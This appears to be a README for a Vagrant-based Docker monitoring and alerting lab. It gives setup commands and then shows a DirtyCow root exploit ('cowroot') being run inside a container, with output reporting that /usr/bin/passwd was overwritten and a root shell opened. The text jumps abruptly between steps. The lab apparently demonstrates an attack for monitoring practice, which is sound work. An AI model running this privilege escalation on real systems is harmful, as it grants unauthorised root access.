 # Docker Monitoring Logging and Alerting (DMLA) Framework 

```
Prerequisites:
- git installed

```
 
# How to use

To make this as simple as possible most of the commands are automated which leaves the user to run only a few command. 

Firstly 
``
git clone xxxx && cd xxxx
``
Then run up the environment with the command
```
vagrant up
```
Once the server is built, we will ssh into it, either by vagrant ssh or vagrant putty. The latter uses the vagrant's putty plugin 
```
vagrant putty
```



```

The permissions have not changed. Now let's gain root access 
```
./cowroot
```
It will print the following 
```
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 54192
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
```

You will have root access to the container

Now exit the container with `exit` and `exit` again. Then remove it with `docker rm -f nginx`



# Clean Up

Exit back to your host machines terminal and issue `vagrant destroy`

